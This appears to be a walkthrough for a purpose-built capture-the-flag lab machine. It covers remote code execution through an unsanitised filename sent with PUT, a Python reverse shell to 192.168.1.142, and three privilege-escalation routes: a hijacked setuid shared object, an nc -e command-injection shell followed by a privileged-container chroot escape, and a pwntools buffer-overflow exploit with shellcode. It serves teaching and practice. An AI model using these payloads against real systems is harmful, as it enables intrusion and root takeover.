

This API is under development and the developers are experimenting with some HTTP methods. Indeed if we send the image to the API with a POST 
request the check is done correctly and the filename is sanitized. 


However the developers are currently implementing a new and more robust check and they are testing it using the PUT method, so that the current POST method check remains usable.



If we submit the file to the API but with a PUT request the API will not sanitize the filename and this will lead to remote command execution!
If we inject the following payload
```sh
{"filename":"\"; python3 -c 'import os,pty,socket;s=socket.socket();s.connect((\"192.168.1.142\",9321));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn(\"bash\")' #"}

```

 
# Privilege escalation
Once remote access has been obtained, the penetration tester can look to escalate privileges in order to completely exploit the machine and gather all kinds of information they were not supposed to.

As instructed, there are three different ways to achieve privilege escalation:

## 🟢 Easy path
In the home directory of the *saltbae* user there is a C executable called `shadow-butchers-client` that is used by the people hosting the website to connect to a *super secret black market* for buying meat! This executable has the SETUID bit set and is owned by the root user. It also presents the following features:
- List affiliated suppliers
- Order meat from suppliers
- Check meat in stock
- Sell meat (premium edition only)

The option to sell meat on the black market using this client is reserved only to those people who bought the premium edition. *Saltbae* already purchased the premium, indeed there is the `shadow-butchers-premium.so` file in the home directory, which is a shared object used by the main program to load the sell feature.

There is no check on the integrity of the `shadow-butchers-premium.so` so the attack consists of creating another file named `shadow-butchers-premium.so` and inserting the following content:

```c
#include <stdlib.h>
#include <unistd.h>
static void inject()
__attribute__((constructor));
void inject() {
  setuid(0);
  system("/bin/sh");
}
// Optional
int sell() {
  printf("You are not selling anything today sir!")
}
```
Once the above file is compiled with
```sh
gcc --shared -m32 -fPIC -o shadow-butchers-premium.so shadow-butchers-premium.c
```
The attacker has to execute the `shadow-butchers-client` and has to select the *sell* option. Since this option was overwritten it will spawn a root shell.

## 🟠 Medium path
Once we have remote access to the machine, we could start to enumerate it. The enumeration process led us to a hidden web service running on a docker container listening on localhost. Accessing the website is not an easy task. Since it is listening on localhost we must do some tunneling. One way to do this is with ssh port forwarding like this:
```sh
ssh -L 9090:localhost:3100 saltbae@192.168.1.151 -i id_rsa
```
To do this though we need the private ssh key which we already have (if we traversed the easy path) or we could just simply create another pair. After that we contact `localhost:9090` and we are greeted with a meat store! vC0rp must be into some shady things…

We start to play with the website until we find the `/resellers` page. This page presents a search bar used to find meat resellers in the world. This search bar presents yet another command injection vulnerability. With the following payload we spawn a reverse shell:
```sh
“; nc <attacker_machine>:<port> -e /bin/sh %23
```
Once we enter things seem a little odd… We realize that we are not in the system, but in a container, a privileged container! We can mount the server's filesystem on the docker container and act as the root of the server:
```sh
chroot /host sh
```

## 🔴 Hard path
The same `shadow-butchers-client` executable in the *saltbae* home is vulnerable to a buffer overflow. The buffer overflow is exploitable from the *order meat from suppliers* option. The program will ask the user to input the name of the supplier he wants to buy the meat from. This string is copied to a buffer without checking the length. Since the machine does not have ASLR active and the executable was compiled with executable stack and with no canaries the exploitation is pretty straight forward.

We tested the following python exploit written using the *pwntools* library:
```py
from pwn import *
context.update(arch='i386', os='linux')

io = process('./shadow-butchers-client')

shellcode = b'\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80'
padding = b'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJ'
slide = b'\x90'*32
payload = padding + b'\x2c\xd5\xff\xff' + slide + shellcode

raw_input("Attach GDB")

io.recvuntil(b'Options')
print(io.recvline())
print(io.recvline())
print(io.recvline())
print(io.recvline())
print(io.recvline())

io.sendline(b'2')
io.sendline(payload)

io.interactive()
```
This indeed spawns a root shell.

# How it's made - Machine
Here we will say how the machine was built